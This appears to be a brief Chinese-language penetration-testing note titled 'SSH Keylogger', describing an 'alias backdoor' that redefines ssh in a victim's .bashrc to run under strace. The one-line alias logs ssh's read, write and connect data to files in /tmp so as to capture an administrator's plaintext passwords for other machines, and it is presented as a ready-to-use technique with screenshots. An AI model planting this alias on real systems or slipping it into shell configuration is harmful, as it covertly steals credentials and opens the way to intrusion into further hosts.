 ```yaml
---
title: "SSH Keylogger"
id: zhfly3488
---
```


# SSH Keylogger

利用strace系统调试工具获取ssh的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的.bashrc里新建一条alias、这样可以抓取他登陆其他机器的ssh密码。算是alias后门。后面会在讲一下alias后门。

```
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh' 
```

![image](../img/6524da1cacb573bd014f46fd3e65b06e.png)

![image](../img/634f2f56762d106f5fcf9343cf97ce44.png)